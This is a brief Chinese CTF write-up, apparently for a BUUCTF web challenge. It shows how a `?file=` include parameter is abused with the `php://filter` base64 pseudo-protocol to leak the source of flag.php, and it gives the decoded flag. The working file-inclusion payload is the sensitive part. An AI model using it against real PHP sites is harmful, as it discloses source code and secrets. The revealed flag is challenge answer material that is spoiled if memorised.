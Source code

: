刚进去界面有个tips，点进去后url变为`/?file=flag.php`
flag应该就在flag.php中
也可以说明flag.php这个文件被包含执行了
利用php伪协议把他的源码拿出来
payload：
```
http://7a5e6b81-d23a-422b-b357-5f20840effb8.node5.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=flag.php
```
然后就回显了一串base64编码的数据
解码后得到：
```php
<?php
echo "Can you find out the flag?";
//flag{3ebd5a07-2f60-4927-9877-a712485afe25}
```
这也可以解释为什么要先编码再解码，如果不编码的话flag是注释掉的根本显示不出来